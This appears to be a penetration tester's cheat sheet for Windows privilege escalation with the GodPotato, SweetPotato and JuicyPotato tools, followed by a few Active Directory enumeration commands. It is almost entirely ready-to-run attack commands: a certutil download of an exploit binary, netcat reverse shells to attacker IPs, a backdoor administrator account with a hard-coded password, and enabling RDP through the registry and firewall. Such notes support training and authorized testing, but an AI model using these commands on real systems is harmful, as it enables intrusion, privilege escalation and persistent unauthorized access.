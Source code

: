 **GodPotato**

```jsx
certutil -urlcache -split -f http://192.168.45.247/GodPotato/GodPotato-NET4.exe
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
.\GodPotato-NET4.exe -cmd "cmd /c C:/Windows/Temp/shell.exe"

.\GodPotato-NET4.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.247 443"
net user /add [username] [password]
net localgroup administrators [username] /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

```jsx
net user /add kali SuperPass123!
net localgroup administrators kali /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

[https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

**SweetPotato**

Download: https://github.com/carr0t2/SweetPotato/releases/tag/v1.0.0

```jsx
.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```

[https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

**JuicyPotato (x86)**

Download: https://github.com/ivanitlearning/Juicy-Potato-x86/releases

Get CLSID: [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

```jsx
Juicy.Potato.x86.exe -c {CLSID} -t * -l 443 -p "C:\Temp\nc.exe" -a "192.168.45.194 443 -e cmd" 
```

[juicy-potato/CLSID at master · ohpe/juicy-potato](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

Video: [https://www.youtube.com/watch?v=k9p6wZO7RyY](https://www.youtube.com/watch?v=k9p6wZO7RyY)

# Active Directory

[Domain Enumeration + Exploitation | burmat / nathan burchfield](https://burmat.gitbook.io/security/hacking/domain-exploitation)

```jsx
net users
net users /domain
net groups /domain
net localgroup administrators
```
